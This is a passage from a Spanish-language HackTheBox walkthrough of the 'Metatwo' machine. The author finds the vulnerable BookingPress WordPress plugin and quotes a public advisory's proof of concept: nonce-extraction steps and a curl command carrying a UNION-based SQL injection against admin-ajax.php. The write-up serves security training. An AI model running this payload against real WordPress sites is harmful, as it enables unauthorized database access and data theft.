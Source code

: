 Hago click en el enlace que me lleva a la ruta /events.

Dentro de esta ruta tampoco veo nada que me pueda servir.

![](/assets/images/HTB/Metatwo-HackTheBox/web2.webp)

Abro el código fuente de la página para ver si podría haber alguna ruta o algo de interés.

# Explotación [#](explotación) {#explotación}


Y buscando encontré un plugin que podría ser vulnerable y podría servirme para conseguir acceso al sistema.

![](/assets/images/HTB/Metatwo-HackTheBox/web3.webp)

> Plugin bookingpress

Buscando vulnerabilidades encuentro el siguiente recurso.

[https://wpscan.com/vulnerability/388cd42d-b61a-42a4-8604-99b812db2357](https://wpscan.com/vulnerability/388cd42d-b61a-42a4-8604-99b812db2357)

Aquí tenemos el proceso de explotación a través de una inyección sql.

```bash
# Prueba de Concepto
--------------------
# Create a new "category" and associate it with a new "service" via the BookingPress admin menu
-----------------------------------------------------
(/wp-admin/admin.php?page=bookingpress_services)

# Create a new page with the "[bookingpress_form]" shortcode embedded (the "BookingPress Step-by-step Wizard Form")
--------------------------------------------------

# Visit the just created page as an unauthenticated user and extract the "nonce" 
----------------------------------------------------
(view source -> search for "action:'bookingpress_front_get_category_services'")

# Invoke the following curl command
-----------------------------------------------------
curl -i 'https://example.com/wp-admin/admin-ajax.php' --data 'action=bookingpress_front_get_category_services_wpnonce=<ELIDQUEDEBEMOSBUSCAR>&category_id=33&total_service=-7502) UNION ALL SELECT @@version,@@version_comment,@@version_compile_os,1,2,3,4,5,6-- -'
```